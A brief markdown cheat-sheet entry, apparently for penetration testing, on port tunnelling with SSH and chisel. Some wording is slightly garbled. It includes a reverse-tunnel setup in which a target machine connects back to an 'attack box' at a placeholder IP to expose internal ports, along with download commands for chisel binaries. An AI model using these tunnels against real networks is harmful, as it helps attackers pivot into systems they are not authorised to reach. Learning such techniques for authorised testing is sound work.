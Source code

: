 ### Steps to Create an Port Tunnel:

 **SSH Tunnel Command**: Run the following command on the machine where the service (e.g., on port `8080`) is running: ```netstat -lntp```

To forward the internal port on your machine do :
```
ssh -L <local_port>:127.0.0.1:8080 user@remote_host
```

We can use ```chisel``` to achieve the same thing

On the attack box
```
./chisel server --reverse -p 8000 
```

On the target
```
./chisel client YOUR_IP:8000 R:[8080]:127.0.0.1:[INTERNAL_PORT]
```

To install it and compile
```
#Linux 64bit
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz

#Windows 64bit
https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz

#MacOS 64bit
https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_darwin_amd64.gz

gunzip chisel_1.9.1_linux_amd64.gz
chmod +x chisel_1.9.1_linux_amd64
```
[Chisel](https://github.com/jpillora/chisel)

